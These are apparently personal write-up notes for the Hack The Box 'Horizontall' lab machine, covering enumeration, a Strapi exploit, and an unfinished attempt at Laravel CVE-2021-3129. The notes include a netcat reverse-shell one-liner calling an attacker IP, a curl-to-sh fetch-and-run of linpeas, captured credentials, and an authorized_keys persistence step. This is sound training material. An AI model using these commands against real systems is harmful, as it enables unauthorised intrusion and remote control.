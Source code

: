 Box Info Horizontall.htb
OS: Linux \
IP: 10.10.11.105 \

Part I Skills learned::  
SSH, nginx, reverse shells \
CVE-2019-18818, CVE-2019-19609, CVE-2021-3129 

---
**Enumeration::**

nmap -p- -A -oN Horizontall.txt ${IP} ::
```
22 SSH 
80 http nginx 1.14.0 (Ubuntu)

```
gobuster dir -u http://<ip> -w /usr/share/wordlists/directory-list-1.0.txt :: nothing
ffuf :: nothing
nikto -h http://horizontall.htb :: nothing
Very little enumeration... ***but***

##Because it's running Nginx, it's possible to have VHOSTs::##
gobuster vhost -u http://horizontall.htb -w /usr/share/wordlists/subdomains-top1million.txt(see url) -t 150 ::
 1) Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
 2) **Add new dir to /etc/hosts**
 3) gobuster u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150 ::
 4) Found: /admin, /users, /reviews, /Reviews, /Users, /Admin, /REVIEWS, 
```
 curl GET http://api-prod.horizontall.htb/<dir> show reviews w/ names. /Admin shows .js
 http://.../admin :: ***Strapi*** login page
    viewing .js scripts show verison of strapi. See ![strapi_version](Screenshots/strapi_verison_find.png)
        + "strapi-plugin-content-type-builder@3.0.0-beta.17.4"
 http://.../reviews :: .json review info
 http://.../Users :: 403
 http://.../%C0 :: 400
```
---
**OSINT::**
[CVE's](https://www.cvedetails.com/vulnerability-list/vendor_id-22287/product_id-75293/Strapi-Strapi.html)
[exploit.py](https://www.exploit-db.com/exploits/50239)

After running exploit.py, shell becomes broken. see ![broken shell](Screenshots/strapi_exploit_broken_shell.png)
 + "Remember this is a blind RCE dont expect to see output"
 + Now login with credentials:: admin:SuperStrongPassword1 see ![creds](Screenshots/strapi_exploit_broken_shell.png)
 + File upload present in admin portal.
   + try to upload reverse shell::
 `victim -$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.8 5555 >/tmp/f` see ![Shell](Screenshots/strapi_shell.png)
 `attack -$ nc -lnvp <lister port> :: $whoami strapi` 
 `attack -$ cat /home/developer/user.txt :: e0a070503b5ecb060d4ec125c811270b`

---
**Root::**
+ netstat shows ports && ips
+ sudo -l nothing, very low permissions.
+ find / -perm /6000
  + GTFO's: No luck
  + netstat -nutpl :: 
  + 8000 - curl: Laravel v8 (PHP v7.4.18)
  + 3306 - mysql
  + 22 - ssh
  + 1337 - "welcome to your api - Welcome."

##**Linpeas.sh::**##
```
+ python -m http.server 8081
+ curl <attack tun ip>:8081/linpeas.sh | sh
    + see ![horizontal_ports](Screenshots/linpeas_ports_horizontall.png)

UN:PW for mysql (from linpeas.sh): developer:#J!:F9Zt2u :: No luck
SSH keys avaliable : /opt/strapi/myapi/node_modules/..etc.etc No luck
sudo verison 1.8.21p2
curl 127.0.0.1:8000 ::
    + https://vapor.laravel.com
    + see link laravel_exploit(2)
    exploit: CVE-2021-3129_exploit || laravel-igition-rce
```

##**CVE-2021-3129 - laravel-igition-rce**##
serve file: `$ python -m http.server 8080`
attacker  ` $ cd tmp/ && wget http://<attack-ip>:8080/laravelexploit.py laravelexploit.py`
`chmod +x laravelexploit.py`
`$ php -d\'phar.readonly=0\' ./phpggc --phar phar -f -o /tmp/exploit.phar monolog/rce1 system id\n`
`$ ./laravelexlpoit.py http://127.0.0.1:8000 path/to/exploit.phar`
Does NOT WORK:: 

##**SSH::**##
```
ssh-keygen -t rsa -C "random comment"
cat id_rsa.pub >> authorized_keys
ssh -L 8000:127.0.0.1:8000 strapi@10.10.11.105 :: SUCCESS
```
^^now in SSH^^: Always killed.

BROKEN BOX

CONTACT HTB





---
**References::**
[Discovery_DNS_subdomains_etc](https://github.com/danielmiessler/SecLists)
[Linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/tag/refs/pull/252/merge)
[Lavarel_exploit](https://github.com/nth347/CVE-2021-3129_exploit)
[lavarel_exploit2](https://github.com/ambionics/laravel-exploits/blob/main/laravel-ignition-rce.py)
[walkthrough](https://burakozlu.medium.com/horizontall-walkthrough-htb-250182ab0721)